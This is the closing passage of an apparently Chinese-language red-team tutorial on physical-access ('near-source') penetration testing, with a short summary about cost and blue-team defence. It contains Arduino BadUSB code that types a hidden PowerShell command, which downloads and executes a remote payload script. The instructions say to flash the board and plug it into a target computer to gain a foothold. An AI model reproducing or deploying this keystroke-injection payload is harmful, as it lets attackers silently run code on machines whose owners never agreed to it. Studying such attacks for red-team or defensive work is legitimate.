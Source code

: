 ```bash
Keyboard.println("powershell -windowstyle hidden IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/payload.ps1') ");
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯 
}
void loop() {}
```

8、将代码上传到开发板中，等待烧录完成即可，烧录成功之后，插入电脑即可上线

# [总结](#toc__16)

近源渗透相比普通的渗透测试可能成本更高，毕竟一个设备动不动就要一两百美刀，谁顶得住啊，但是如果能更好的掌握社工技巧会事半功倍，而且对于蓝队来说更是防不胜防，有可能自己在网络这块防得死死的，被现场的好队友捡到的 u 盘送走了，虽然设备费用贵，但贵有贵的道理，从另一个方面讲，以后的常规渗透测试肯定也会越来越多的结合近源渗透测试的一些手段和方法，这不仅仅是提高了红队的攻击能力，同时也是对蓝队防守能力在更高维度上提出了要求。

